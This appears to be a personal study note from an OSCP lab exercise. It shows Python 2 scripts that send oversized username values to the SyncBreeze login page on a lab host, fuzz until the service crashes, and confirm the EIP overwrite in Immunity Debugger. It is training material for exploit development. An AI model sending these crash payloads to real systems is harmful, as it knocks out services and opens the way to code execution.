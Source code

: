 11.1.1.2

# 11.1.1.2
## 11.1.1.2.1. Build the fuzzer and replicate the SyncBreeze crash.
### Start the SyncBreeze service on our Windows 10 client machine from the Services App
![ce56977e64ed823c3a3ea5e2e52df4e0.png](:/11a140171edf4b22905b1160fb41000b)

### We already know the username field is vulnerable, let's sample the network traffic by launching Wireshark. Filter 'tun0' -> 'host 192.168.214.0'
![b9021acb7ad995ac78b65ea988b40354.png](:/060695a6fc4f4220b37f0eb78620b2fa)

### Open a browser and log into SyncBreeze with invalid credentials
[http://192.168.214.10/login](http://192.168.214.10/login)
![2c00450b1fa9beb29f666c4efdac0628.png](:/82cff510ed3d469f9c00f438b4626552)
![53801ebdc048da616b94ec88baf9435d.png](:/976ed920578e4a5ba32799da255af9ba)

### On Wireshark, follow the TCP stream and look for the POST request to log in.
We are looking for a [FIN, ACK] response from the Windows client. Review the 3-way handshake
![876cdee0ffacfd2826e6ad40195673c8.png](:/32604bf07e9c475f88700db6393bb102)

### Now replicate this HTTP communication by building a fuzzer script in Python.
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/bufferOverflow/win/syncbreeze$ cat 1_proof_of_concept.py 
#!/usr/bin/python
import socket
import sys

try:
    print "\nSending evil buffer..."

    size = 100
    
    inputBuffer = "A" * size
    
    content = "username=" + inputBuffer + "&password=A"
    
    buffer = "POST /login HTTP/1.1\r\n"
    buffer += "Host: 192.168.214.10\r\n"
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    buffer += "Accept-Encoding: gzip, deflate\r\n"
    buffer += "Referer: http://192.168.214.10/login\r\n"
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += "Content-Length: "+str(len(content))+"\r\n"
    buffer += "DNT: 1\r\n"
    buffer += "Connection: keep-alive\r\n"
    buffer += "Upgrade-Insecure-Requests: 1\r\n"
    buffer += "\r\n"
    
    buffer += content
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect(("192.168.214.10", 80))
    s.send(buffer)

    s.close()
    print "\nDone!"

except:
    print "Could not connect!"
    sys.exit()
```

### Now build a generation-based fuzzer that sends multiple HTTP requests with increasingly longer usernames. Here it is:
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/bufferOverflow/win/syncbreeze$ cat 2_fuzzer_username.py 
#!/usr/bin/python
import socket                                                             
import time                                                               
import sys                                                                
                                                                                 
size = 100                                                                       
                                                                                 
while(size < 2000):                                                              
                                                                                 
  try:                                                                                         
    print "\nSending evil buffer with %s bytes..." % size                                      
                                                                                               
    inputBuffer = "A" * size                                                                   
                                                                                               
    content = "username=" + inputBuffer + "&password=A"                                        
                                                                                               
    buffer = "POST /login HTTP/1.1\r\n"                                                        
    buffer += "Host: 192.168.214.10\r\n"                                                       
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"            
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"                                                    
    buffer += "Accept-Encoding: gzip, deflate\r\n"                                                     
    buffer += "Referer: http://192.168.214.10/login\r\n"                                                 
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"                                      
    buffer += "Content-Length: "+str(len(content))+"\r\n"                                                
    buffer += "DNT: 1\r\n"
    buffer += "Connection: keep-alive\r\n"
    buffer += "Upgrade-Insecure-Requests: 1\r\n"
    buffer += "\r\n"
    
    buffer += content
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect(("192.168.214.10", 80))
    s.send(buffer)

    s.close()

    size += 100
    time.sleep(10)

    print "Done!"

  except:
    print "Could not connect!"
    sys.exit()
```

### Start or restart SyncBreeze
![ea32fe6de792f084abdad5adffbed754.png](:/2db2634d39ac443c99c8f87230e05d03)

### Check what port it's listening on with TCP Viewer
![0cf0b98dfd333939996e27882d900840.png](:/47f9f3e677954c53b7d21600c3069d71)

### Look for syncbrs.exe PID. In this example, the PID is 3884
![60553221c01aeeb2dc103032978ac054.png](:/7bc96ffc352741c2bc4488b67da45fdf)

### Right-click the Immunity Debuuger Icon -> Run as administrator
![cbbc567f412614de3492fb1a79758d23.png](:/3159f6620b594c71bd1df31af8bd0ecb)

### The Immunity Debugger Launches. Attach by pressing File -> Attach
![5fa87b2172578b5c398e9f2ec588fc2a.png](:/82f38cc3c28a47f4b9f7e136bdd12254)

### Select the syncbreeze process. In this example, click on PID, then press Attach.
![1a52168fc6521b17b18f8b9e178d9742.png](:/bbb83c9f9e5c47ae8542667de7852496)

### We see the Syncbreeze service is attached but Paused.
![b63cf94ce1579459225f0af53d8dca97.png](:/92a4594f8c934e3babe97e56a104307d)

### Press F9 to unpause.
![cbcaab8f7fd54f660eb96af4960fd7d0.png](:/ca32983b4d854ed9b5fdae3c035e473a)

### Run the generational-based fuzzer script. The script hangs once 900 bytes is reached.
![a49b300061046dc1a23257a7b5dcccbf.png](:/1bb72a454aa742468d34aec3be56f0b1)

### We see that SyncBreeze has crashed, with EIP 41414141 and the debugger has paused
![ddac99473e82070f07334576c0bd99fb.png](:/c964ab30d58547dba7e9fd8d77295833)

### This error message also pops up
![fd3460e4a6d873ac906a961e9792a63c.png](:/51258d58524f4c16aa35e4b395ed303b)


## 11.1.1.2.2. Inspect the content of other registers and stack memory. Does anything seem to be directly influenced by the fuzzing input?

Yes, the ESP has 12 bytes written to it at a higher numbered address on the stack. It seems to be overrun with our command line argument of A's.

id: e464b20db9654705b639eb8a326045ce
parent_id: 05b15860a68a456fb85f1ced48840d69
created_time: 2020-09-27T10:18:00.166Z
updated_time: 2020-09-27T10:18:01.845Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-09-27T10:18:00.166Z
user_updated_time: 2020-09-27T10:18:01.845Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1